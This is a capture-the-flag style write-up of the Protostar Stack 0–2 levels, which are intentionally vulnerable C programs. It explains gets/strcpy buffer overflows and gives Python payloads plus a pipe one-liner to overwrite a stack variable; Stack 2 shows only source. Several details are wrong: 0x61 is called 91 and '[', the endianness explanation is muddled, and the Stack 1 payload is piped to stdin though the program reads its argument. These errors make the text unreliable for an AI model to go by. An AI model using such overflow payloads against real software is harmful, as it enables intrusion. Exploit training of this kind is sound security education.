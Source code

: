 # Protostar Stack levels

## Stack 0
For this level we have to exploit the following C code.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
    printf("you have changed the 'modified' variable\n");
  } else {
    printf("Try again?\n");
  }
}
```

As we can see here. The main function is calling `gets()`.
Running `man gets` we see it is a C library function which reads a line from standard input and stores the string inside the supplied buffer.
The man page also warns that gets does not check for the size of the string! 

The program starts by initialising the stack. The stack looks like this. 
```C
Data...
buffer[64]
modified
More data...
```
Since this a 32 bit system, modified will be 4 bytes (32 bits = 4 bytes). So we can type 1 to 4 characters to overwrite it.
The modified variable is right above the buffer, we need to write 64 characters to fill the buffer, then 1 character to change modified.

We can do this with a nice little python script: Piping the followning output into the program will overwrite the modified variable
```python
print 'A'*64 + 'BBBB'
```


## Stack 1

Here is the supplied C Code
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
    errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
    printf("you have correctly got the variable to the right value\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Stack1 is very similar to Stack0, however now we have to write a specific value into the buffer. Specifically 0x61626364
This is a hex number, 0x61 = 91. 

Let's take a step back and talk about *endianness*. Computers are really lazy.
Modern computers store data in many ways. The most common is in a format called **little endian**.
Little endian stores the least significant byte first. This means that if you wanted to store the binary number *01101001*, it would be stored as *01101001*. But if you wanted to store a 4 byte word, (0xFF = 11111111, 0x00 = 00000000), In memory storing **0x123456** would look like **0x563412**. Little endianness changes the location of entire *bytes*, not the *bits*.

This challenge is extremely similar to Stack 0. But in order to get the number *0x61626364* to appear correctly, we would have to enter it in a little endian manner. This means enterring **0x64636261**.

The program is expecting characters not numbers, so we have to convert each byte, into a character. For example 0x61 = *[*.
But this is annoying to do, python has a nice short hand to doing it, if you just `print '\x61'` it will print [. 

So similar to Stack 0, we can use the following python script to print our attack
```python
print "A"*64 + "\x64\x63\x62\x61"
```
To pipe this input into our program we can do `python -c 'print "A"*64 + "\x64\x63\x62\x61"' | ./stack1`

## Stack 2

Supplied C Code is
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
    errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
    printf("you have correctly modified the variable\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }

}
```
